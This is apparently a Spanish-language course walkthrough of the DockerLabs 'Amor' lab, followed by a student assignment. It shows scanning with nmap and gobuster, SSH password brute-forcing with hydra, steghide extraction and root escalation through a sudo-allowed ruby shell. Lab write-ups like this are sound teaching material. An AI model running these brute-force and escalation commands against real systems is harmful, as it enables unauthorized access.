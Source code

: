 ## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

**Prerequisito tener instalado docker**

## Fácil

Dockerlabs.es

*Descarga*

![](Descarga.jpg)

Una vez descargada deberemos copiar el contenido hacia kali.

![](scp1.jpg)

```bash
jaider@TTG MINGW64 /g/HACKING
$ scp -r amor kali@192.168.1.12:/home/kali/Documents/
```
Ya en Kali y en caso de no tener instlado Docker proceder a su instalación: 

```bash
sudo apt install docker.io
```

## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

**Descomprimir el recurso:**

En nuestro caso se trata de la carpeta que se traslado por SCP desde ya descomprimida, en caso de que se descargue directamente en Kali proceder a descomprirla. 

```bash
unzip nombre_maquina.zip
```

Esto generará una  carpeta  con archivos: un script que es el autodespliegue de la máquina «auto_deploy.sh» y el archivo de la máquina en.tar «ejemplo.tar».

Y por último para desplegar la máquina, basta con ejecutar el script:


```bash
└─# ./auto_deploy.sh amor.tar 
```

![](Despliegue.jpg)


## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

![](ipadd.jpg)

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

![](netdiscover.jpg)


Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

![](nmap.jpg)

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](gobuster.jpg)

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

![](hydra.jpg)

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![](scp.jpg)


La imagen descargada es la siguiente:

![](foto.jpg)

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

![](sudo.jpg)

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```
![](root.jpg)

# Taller Individual.

**Instrucciones:**

- Para esta actividad individual, deberán realizar el trabajo dentro de la subcarpeta ENTREGAS que se encuentra en la sesión actual; dentro de el README.md de la sesión.

- La entrega final deberá cargarse en un nuevo directorio dentro de la carpeta **ENTREGAS**, el cual tendrá el formato ApellidoNombre (ejemplo: PerezJuan). Este directorio deberá ser creado por cada estudiante en el repositorio de GitHub asignado, para lo cual se les otorgarán los permisos de colaboradores necesarios.

**Métrica Clave: Profundidad y Calidad de las Respuestas**

La evaluación de esta actividad se centrará en la profundidad y calidad de sus respuestas. Esto implica lo siguiente:

- Definición y Explicación Detallada: Para cada comando y herramienta empleada, deben proporcionar una definición clara y una explicación exhaustiva de su propósito y funcionamiento.

Ejemplos Prácticos: Incluyan ejemplos concretos y funcionales que ilustren el uso de cada comando o herramienta.

- Variantes y Banderas (Flags): Describan las principales variantes y las banderas (opciones o argumentos) más relevantes de cada comando, explicando su función y cómo modifican el comportamiento del comando.

**Casos de Uso Reales:** Mencionar escenarios o casos de uso comunes donde estas herramientas y comandos son particularmente útiles.

**Asegúrense de que su documentación sea clara, organizada y fácil de entender.**

**NOTA: Incluir imágenes y fuentes en su documentación.**


**Puntos a desarrollar**

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleaas, este punto amplia el ejercicio anterior.
   
4. Realice un diagrama de flujo de todo el procedimiento realizado.

